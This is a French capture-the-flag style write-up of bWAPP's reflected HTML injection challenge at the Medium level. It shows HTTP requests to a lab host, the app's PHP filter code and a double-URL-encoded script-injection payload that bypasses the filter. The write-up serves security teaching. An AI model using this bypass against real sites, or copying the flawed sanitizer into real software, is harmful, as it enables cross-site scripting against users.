 # Niveau "Medium"

## Exploitation

L'affichage du prénom et du nom s'effectue ici de la même manière au sein d'une balise `<div></div>` :&#x20;

![](<../../../../../.gitbook/assets/image (17) (2).png>)

Dont voici la requête :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=prenom%5Blvl+medium%5D&lastname=nom%5Blvl+medium%5D&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=41a2ae9ea948edd613914b6d27214575; security_level=1
Connection: close
```

L'affichage des paramètres d'URL se faire directement au sein de la balise `<div></div>` contenant également le formulaire :&#x20;

```html
<div id="main">
  <h1>HTML Injection - Reflected (GET)</h1>
  <p>Enter your first and last name:</p>
  <form action="/bWAPP/htmli_get.php" method="GET">
    <p>
      <label for="firstname">First name:</label><br />
      <input type="text" id="firstname" name="firstname">
    </p>
    <p>
      <label for="lastname">Last name:</label><br />
      <input type="text" id="lastname" name="lastname">
    </p>
    <button type="submit" name="form" value="submit">Go</button>  
  </form>
  <br />
  Welcome prenom[lvl medium] nom[lvl medium]
</div>
```

Cela oblige donc à passer par l'insertion de nouvelles balises afin d'injecter du contenu. Dans ce niveau de difficulté, aucune balise ne semble être interprétée par l'application, que cela soit le classique `<script></script>` :&#x20;

![](<../../../../../.gitbook/assets/image (3) (2).png>)

L'exécution de Javascript dans un attribut HTML :&#x20;

![](<../../../../../.gitbook/assets/image (20) (1) (1) (1).png>)

Ou également l'utilisation de balises customs :&#x20;

![](<../../../../../.gitbook/assets/image (18) (1) (1).png>)

Pour réussir ce challenge il va donc falloir identifier un moyen de transmettre l'information sous une autre forme mais qui sera tout de même interprétée par l'application. Après plusieurs tentatives, l'encodage URL de l'injection semble fonctionner :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=%253c%2573%2563%2572%2569%2570%2574%253e%2561%256c%2565%2572%2574%2528%2530%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e&lastname=%253c%2573%2563%2572%2569%2570%2574%253e%2561%256c%2565%2572%2574%2528%2531%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=b6b6991fd6ae6e9926d4e8dab4692f15; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (9) (1) (1) (1).png>)

## Analyse du code source

Après avoir testé que les paramètres sont bien présents, l'affichage s'effectue grâce à un simple `echo` :

{% code title="htmli_get.php" %}
```php
if(isset($_GET["firstname"]) && isset($_GET["lastname"])) {
  $firstname = $_GET["firstname"];
  $lastname = $_GET["lastname"];

  if($firstname == "" or $lastname == "") {
    echo "<font color=\"red\">Please enter both fields...</font>";
  }
  else {
    echo "Welcome " . htmli($firstname) . " " . htmli($lastname);
  }
}
```
{% endcode %}

Les données sont au préalable traitées par la méthode `htmli()` permettant de gérer la difficulté du niveau sélectionné :

{% code title="htmli_get.php" %}
```php
function htmli($data) {

  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);
      break;
    case "1" :
      $data = xss_check_1($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;
  }

  return $data;
}
```
{% endcode %}

Le level "Medium" correspond à la valeur 1, c'est à dire ici à l'exécution de la méthode `xss_check_1()` :&#x20;

{% code title="functions_external.php" %}
```php
function xss_check_1($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);

    // Failure is an option
    // Bypasses double encoding attacks
    // <script>alert(0)</script>
    // %3Cscript%3Ealert%280%29%3C%2Fscript%3E
    // %253Cscript%253Ealert%25280%2529%253C%252Fscript%253E
    $input = urldecode($input);

    return $input;
}
```
{% endcode %}

La fonction remplace les caractères `<` et `>` par leur équivalent en entité HTML, soit respectivement `&lt` et `&gt`, rendant impossible l'injection de balises HTML. La ligne 12, par contre, effectue un décodage URL avant de retourner la valeur pour affichage. Le contournement ici sera donc d'encoder URL l'injection (en fait à minima les caractères `<` et `>`) qui sera décodée par la fonction `xss_chech_1()`:

```http
GET /bWAPP/htmli_get.php?firstname=%253cscript%253ealert%280%29%253c%2Fscript%253e&lastname=%253cscript%253ealert%281%29%253c%2Fscript%253e&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=1596dd4de4ad3324f300dfed9d8523f5; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (15) (1) (1).png>)
